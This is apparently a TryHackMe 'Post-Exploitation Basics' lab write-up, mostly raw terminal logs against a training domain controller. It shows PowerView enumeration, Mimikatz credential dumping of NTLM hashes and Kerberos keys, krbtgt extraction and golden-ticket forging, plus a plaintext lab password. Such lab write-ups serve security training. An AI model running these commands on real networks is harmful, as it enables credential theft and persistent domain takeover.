

# Post-Exploitation Basics

https://tryhackme.com/room/postexploit

## Enumeration with PowerView

```
┌──(kali㉿kali)-[/media/…/Cyber Security/Exercises/TryHackMe/Relevant]
└─$ ssh Administrator@10.10.60.68                                                                                                                             255 ⨯ 1 ⚙
Administrator@10.10.60.68's password: 
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator> # Password is P@$$W0rd
'#' is not recognized as an internal or external command,
 
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> . .\Downloads\PowerView.ps1
 
cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{P0W3RV13W_FTW}
sshd


PS C:\Users\Administrator> Get-NetGroup -GroupName *admin*
Administrators
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
PS C:\Users\Administrator> Invoke-ShareFinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem

operatingsystem
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation


PS C:\Users\Administrator>

```

## Enumeration with Bloodhound



## Dumping Hashes with Mimikatz

```
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>cd Downloads && mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug 
Privilege '20' OK 

mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt 
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0

RID  : 00000453 (1107) 
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : 7266054141d74d42be2d08d25b344300

RID  : 00000455 (1109) 
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a

mimikatz # sekurla::logonpasswords 
ERROR mimikatz_doLocal ; "sekurla" module not found ! 

        standard  -  Standard module  [Basic commands (does not require module name)]
          crypto  -  Crypto Module
        sekurlsa  -  SekurLSA module  [Some commands to enumerate credentials...]
        kerberos  -  Kerberos package module  []
       privilege  -  Privilege module
         process  -  Process module 
         service  -  Service module
         lsadump  -  LsaDump module
              ts  -  Terminal Server module
           event  -  Event module
            misc  -  Miscellaneous module
           token  -  Token manipulation module
           vault  -  Windows Vault/Credential module
     minesweeper  -  MineSweeper module
             net  -
           dpapi  -  DPAPI Module (by API or RAW access)  [Data Protection application programming interface]
       busylight  -  BusyLight Module
          sysenv  -  System Environment Value module
             sid  -  Security Identifiers module
             iis  -  IIS XML Config module
             rpc  -  RPC control of mimikatz
            sr98  -  RF module for SR98 device and T5577 target
             rdm  -  RF module for RDM(830 AL) device
             acr  -  ACR Module

mimikatz # sekurlsa::logonpasswords 

Authentication Id : 0 ; 177257 (00000000:0002b469)
Session           : NetworkCleartext from 0
User Name         : Administrator
Domain            : CONTROLLER
Logon Server      : DOMAIN-CONTROLL
Logon Time        : 1/8/2022 11:57:07 PM
SID               : S-1-5-21-849420856-2351964222-986696166-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CONTROLLER
         * NTLM     : 2777b7fec870e04dda00cd7260f7bee6
         * SHA1     : bae5c6e0d089a87a81392648a12415c937464543
         * DPAPI    : f385364a73a05eef31f85f2ff3ea466c
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CONTROLLER.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 59075 (00000000:0000e6c3)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:22 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 7266054141d74d42be2d08d25b344300
         * SHA1     : 9ffdc4e0a46198537ca43aef8d8e64738a057e12
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 64 40 77 ab 5f 5a 76 19 91 97 77 1d 46 b2 03 1f cc a8 b6 43 aa 7b ce 1a a1 c6 be 58 cd 5a 48 99 ae 0e 3d b8 43 fb 66 88 1c 69 39 d5 d7 b6 a9 d2 55
 97 aa 8f a7 10 22 9a ad 40 40 2b 7b 23 44 63 d5 3d c9 d3 21 cd 3d 31 60 7f 2a 41 23 e7 7c fc 1b 01 8b f3 df a9 b0 3d d6 88 80 9e 27 11 42 62 8a ba ce e1 12 92 ed 09 e4
 57 3d 37 cd 30 1d 02 65 45 da c5 6c 68 7f 64 26 b0 30 3b 73 9f 2d be 3c 3c 1f c5 1a 4f 90 25 05 23 60 a4 8d 43 15 e1 5c bc 1b cb a1 96 dc 97 5b 93 40 0c f9 ed 61 30 d6
 72 78 54 dc 69 fa c2 08 df 14 f9 87 92 a8 a1 2a 41 7c 48 4d 3f 8d 22 92 58 4a 92 ce f6 27 5b 75 85 ce 01 fd 3a ee c3 ee 10 3b 4c 3b be aa a0 d9 2c e5 e6 88 6f c0 4e 46
 07 2f f7 a4 c4 d7 cb 9e 39 55 68 88 d3 8e 8e b1 37 d0 2e 51 84 b3 d2
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DOMAIN-CONTROLL$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:20 PM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 7266054141d74d42be2d08d25b344300
         * SHA1     : 9ffdc4e0a46198537ca43aef8d8e64738a057e12
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : domain-controll$
         * Domain   : CONTROLLER.local
         * Password : 64 40 77 ab 5f 5a 76 19 91 97 77 1d 46 b2 03 1f cc a8 b6 43 aa 7b ce 1a a1 c6 be 58 cd 5a 48 99 ae 0e 3d b8 43 fb 66 88 1c 69 39 d5 d7 b6 a9 d2 55
 97 aa 8f a7 10 22 9a ad 40 40 2b 7b 23 44 63 d5 3d c9 d3 21 cd 3d 31 60 7f 2a 41 23 e7 7c fc 1b 01 8b f3 df a9 b0 3d d6 88 80 9e 27 11 42 62 8a ba ce e1 12 92 ed 09 e4
 57 3d 37 cd 30 1d 02 65 45 da c5 6c 68 7f 64 26 b0 30 3b 73 9f 2d be 3c 3c 1f c5 1a 4f 90 25 05 23 60 a4 8d 43 15 e1 5c bc 1b cb a1 96 dc 97 5b 93 40 0c f9 ed 61 30 d6
 72 78 54 dc 69 fa c2 08 df 14 f9 87 92 a8 a1 2a 41 7c 48 4d 3f 8d 22 92 58 4a 92 ce f6 27 5b 75 85 ce 01 fd 3a ee c3 ee 10 3b 4c 3b be aa a0 d9 2c e5 e6 88 6f c0 4e 46
 07 2f f7 a4 c4 d7 cb 9e 39 55 68 88 d3 8e 8e b1 37 d0 2e 51 84 b3 d2
        ssp :
        credman :

Authentication Id : 0 ; 31490 (00000000:00007b02)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:20 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 4bd04581d16353e6bf64ba9745cb6a8f
         * SHA1     : 61f1c5a4691ad30c67adf2a371fafda0178a7b2b
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 32 af 6b 07 78 2a f0 f5 32 bd 01 59 fb 6b 40 10 6e a7 03 f9 ec d8 23 de 6a 08 10 10 74 b5 60 bb f4 c5 2e 5f 42 e3 71 8b 4b 41 31 2f d2 17 db 2c e1
 c3 d7 51 0f 45 79 e4 9a ec ab 63 bb 4a ce c1 dc 20 28 6d c7 50 a0 28 03 a4 7b c1 02 d8 3b c6 19 09 31 8c 41 90 c6 20 fa c4 7b ef 4b cf c1 86 c7 95 f9 60 8d 35 8d 10 c8
 ee 37 54 45 3e 30 30 92 b1 b3 85 e3 bd e7 55 22 88 36 82 95 a7 db 71 fa b7 50 1d ce 08 6b 77 9d 02 dd 68 8f f7 ed 1e ac 56 c5 3f c3 e1 cb ba ef 01 79 0c d4 cb b2 36 40
 12 2d 36 6a a5 92 78 8c bf 44 c2 28 27 de 00 68 06 3c 4d dc 15 44 5e 81 f8 26 19 e7 0c ca 3e e3 f3 d8 ab ee cb 01 8e 7c 9f ba b4 66 dc 66 af 9c 6d 99 8b c8 fb 02 bd 3f
 45 d7 3f 42 e3 e8 4c 25 7e 72 48 b5 38 a8 33 94 20 5e 3d b8 c6 66 93
        ssp :
        credman :

Authentication Id : 0 ; 31339 (00000000:00007a6b)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:20 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 7266054141d74d42be2d08d25b344300
         * SHA1     : 9ffdc4e0a46198537ca43aef8d8e64738a057e12
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 64 40 77 ab 5f 5a 76 19 91 97 77 1d 46 b2 03 1f cc a8 b6 43 aa 7b ce 1a a1 c6 be 58 cd 5a 48 99 ae 0e 3d b8 43 fb 66 88 1c 69 39 d5 d7 b6 a9 d2 55
 97 aa 8f a7 10 22 9a ad 40 40 2b 7b 23 44 63 d5 3d c9 d3 21 cd 3d 31 60 7f 2a 41 23 e7 7c fc 1b 01 8b f3 df a9 b0 3d d6 88 80 9e 27 11 42 62 8a ba ce e1 12 92 ed 09 e4
 57 3d 37 cd 30 1d 02 65 45 da c5 6c 68 7f 64 26 b0 30 3b 73 9f 2d be 3c 3c 1f c5 1a 4f 90 25 05 23 60 a4 8d 43 15 e1 5c bc 1b cb a1 96 dc 97 5b 93 40 0c f9 ed 61 30 d6
 72 78 54 dc 69 fa c2 08 df 14 f9 87 92 a8 a1 2a 41 7c 48 4d 3f 8d 22 92 58 4a 92 ce f6 27 5b 75 85 ce 01 fd 3a ee c3 ee 10 3b 4c 3b be aa a0 d9 2c e5 e6 88 6f c0 4e 46
 07 2f f7 a4 c4 d7 cb 9e 39 55 68 88 d3 8e 8e b1 37 d0 2e 51 84 b3 d2
        ssp :
        credman :

Authentication Id : 0 ; 29048 (00000000:00007178)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:11 PM
SID               :
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 7266054141d74d42be2d08d25b344300
         * SHA1     : 9ffdc4e0a46198537ca43aef8d8e64738a057e12
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 175314 (00000000:0002acd2)
Session           : Service from 0
User Name         : sshd_2888
Domain            : VIRTUAL USERS
Logon Server      : (null)
Logon Time        : 1/8/2022 11:57:02 PM
SID               : S-1-5-111-3847866527-469524349-687026318-516638107-1125189541-2888
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 7266054141d74d42be2d08d25b344300
         * SHA1     : 9ffdc4e0a46198537ca43aef8d8e64738a057e12
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 64 40 77 ab 5f 5a 76 19 91 97 77 1d 46 b2 03 1f cc a8 b6 43 aa 7b ce 1a a1 c6 be 58 cd 5a 48 99 ae 0e 3d b8 43 fb 66 88 1c 69 39 d5 d7 b6 a9 d2 55
 97 aa 8f a7 10 22 9a ad 40 40 2b 7b 23 44 63 d5 3d c9 d3 21 cd 3d 31 60 7f 2a 41 23 e7 7c fc 1b 01 8b f3 df a9 b0 3d d6 88 80 9e 27 11 42 62 8a ba ce e1 12 92 ed 09 e4
 57 3d 37 cd 30 1d 02 65 45 da c5 6c 68 7f 64 26 b0 30 3b 73 9f 2d be 3c 3c 1f c5 1a 4f 90 25 05 23 60 a4 8d 43 15 e1 5c bc 1b cb a1 96 dc 97 5b 93 40 0c f9 ed 61 30 d6
 72 78 54 dc 69 fa c2 08 df 14 f9 87 92 a8 a1 2a 41 7c 48 4d 3f 8d 22 92 58 4a 92 ce f6 27 5b 75 85 ce 01 fd 3a ee c3 ee 10 3b 4c 3b be aa a0 d9 2c e5 e6 88 6f c0 4e 46
 07 2f f7 a4 c4 d7 cb 9e 39 55 68 88 d3 8e 8e b1 37 d0 2e 51 84 b3 d2
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:22 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 59094 (00000000:0000e6d6)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:22 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 4bd04581d16353e6bf64ba9745cb6a8f
         * SHA1     : 61f1c5a4691ad30c67adf2a371fafda0178a7b2b
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 32 af 6b 07 78 2a f0 f5 32 bd 01 59 fb 6b 40 10 6e a7 03 f9 ec d8 23 de 6a 08 10 10 74 b5 60 bb f4 c5 2e 5f 42 e3 71 8b 4b 41 31 2f d2 17 db 2c e1
 c3 d7 51 0f 45 79 e4 9a ec ab 63 bb 4a ce c1 dc 20 28 6d c7 50 a0 28 03 a4 7b c1 02 d8 3b c6 19 09 31 8c 41 90 c6 20 fa c4 7b ef 4b cf c1 86 c7 95 f9 60 8d 35 8d 10 c8
 ee 37 54 45 3e 30 30 92 b1 b3 85 e3 bd e7 55 22 88 36 82 95 a7 db 71 fa b7 50 1d ce 08 6b 77 9d 02 dd 68 8f f7 ed 1e ac 56 c5 3f c3 e1 cb ba ef 01 79 0c d4 cb b2 36 40
 12 2d 36 6a a5 92 78 8c bf 44 c2 28 27 de 00 68 06 3c 4d dc 15 44 5e 81 f8 26 19 e7 0c ca 3e e3 f3 d8 ab ee cb 01 8e 7c 9f ba b4 66 dc 66 af 9c 6d 99 8b c8 fb 02 bd 3f
 45 d7 3f 42 e3 e8 4c 25 7e 72 48 b5 38 a8 33 94 20 5e 3d b8 c6 66 93
        ssp :
        credman :

Authentication Id : 0 ; 31352 (00000000:00007a78)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:20 PM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 4bd04581d16353e6bf64ba9745cb6a8f
         * SHA1     : 61f1c5a4691ad30c67adf2a371fafda0178a7b2b
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 32 af 6b 07 78 2a f0 f5 32 bd 01 59 fb 6b 40 10 6e a7 03 f9 ec d8 23 de 6a 08 10 10 74 b5 60 bb f4 c5 2e 5f 42 e3 71 8b 4b 41 31 2f d2 17 db 2c e1
 c3 d7 51 0f 45 79 e4 9a ec ab 63 bb 4a ce c1 dc 20 28 6d c7 50 a0 28 03 a4 7b c1 02 d8 3b c6 19 09 31 8c 41 90 c6 20 fa c4 7b ef 4b cf c1 86 c7 95 f9 60 8d 35 8d 10 c8
 ee 37 54 45 3e 30 30 92 b1 b3 85 e3 bd e7 55 22 88 36 82 95 a7 db 71 fa b7 50 1d ce 08 6b 77 9d 02 dd 68 8f f7 ed 1e ac 56 c5 3f c3 e1 cb ba ef 01 79 0c d4 cb b2 36 40
 12 2d 36 6a a5 92 78 8c bf 44 c2 28 27 de 00 68 06 3c 4d dc 15 44 5e 81 f8 26 19 e7 0c ca 3e e3 f3 d8 ab ee cb 01 8e 7c 9f ba b4 66 dc 66 af 9c 6d 99 8b c8 fb 02 bd 3f
 45 d7 3f 42 e3 e8 4c 25 7e 72 48 b5 38 a8 33 94 20 5e 3d b8 c6 66 93
        ssp :
        credman :

Authentication Id : 0 ; 31322 (00000000:00007a5a)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:20 PM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 7266054141d74d42be2d08d25b344300
         * SHA1     : 9ffdc4e0a46198537ca43aef8d8e64738a057e12
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 64 40 77 ab 5f 5a 76 19 91 97 77 1d 46 b2 03 1f cc a8 b6 43 aa 7b ce 1a a1 c6 be 58 cd 5a 48 99 ae 0e 3d b8 43 fb 66 88 1c 69 39 d5 d7 b6 a9 d2 55
 97 aa 8f a7 10 22 9a ad 40 40 2b 7b 23 44 63 d5 3d c9 d3 21 cd 3d 31 60 7f 2a 41 23 e7 7c fc 1b 01 8b f3 df a9 b0 3d d6 88 80 9e 27 11 42 62 8a ba ce e1 12 92 ed 09 e4
 57 3d 37 cd 30 1d 02 65 45 da c5 6c 68 7f 64 26 b0 30 3b 73 9f 2d be 3c 3c 1f c5 1a 4f 90 25 05 23 60 a4 8d 43 15 e1 5c bc 1b cb a1 96 dc 97 5b 93 40 0c f9 ed 61 30 d6
 72 78 54 dc 69 fa c2 08 df 14 f9 87 92 a8 a1 2a 41 7c 48 4d 3f 8d 22 92 58 4a 92 ce f6 27 5b 75 85 ce 01 fd 3a ee c3 ee 10 3b 4c 3b be aa a0 d9 2c e5 e6 88 6f c0 4e 46
 07 2f f7 a4 c4 d7 cb 9e 39 55 68 88 d3 8e 8e b1 37 d0 2e 51 84 b3 d2
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DOMAIN-CONTROLL$
Domain            : CONTROLLER
Logon Server      : (null)
Logon Time        : 1/8/2022 11:56:11 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : domain-controll$
         * Domain   : CONTROLLER.LOCAL
         * Password : (null) 
        ssp :
        credman :

mimikatz #
```


## Golden Ticket with Mimikatz

```
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug 
Privilege '20' OK 

mimikatz # lsadump::lsa /inject /name:krbtgt  
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

 * Primary 
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4

mimikatz # # Creating a golden ticket 
ERROR mimikatz_doLocal ; "#" command of "standard" module not found ! 

Module :        standard
Full name :     Standard module
Description :   Basic commands (does not require module name)

            exit  -  Quit mimikatz
             cls  -  Clear screen (doesn't work with redirections, like PsExec)
          answer  -  Answer to the Ultimate Question of Life, the Universe, and Everything
          coffee  -  Please, make me a coffee!
           sleep  -  Sleep an amount of milliseconds
             log  -  Log mimikatz input/output to file
          base64  -  Switch file input/output base64
         version  -  Display some version informations
              cd  -  Change or display current directory
       localtime  -  Displays system local date and time (OJ command)
        hostname  -  Displays system local hostname

mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500  
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 1/9/2022 12:19:15 AM ; 1/7/2032 12:19:15 AM ; 1/7/2032 12:19:15 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF6F88D43B8

mimikatz # exit
Bye!

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>dir \\Desktop-1\C$ 
The network path was not found. 

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>dir \\Desktop-1\C$

```

## Enumeration w/ Server Manager

`rdesktop 10.10.60.68 -u controller\\administrator -p 'P@$$W0rd'`


## Maintaining Access


## Conclusion
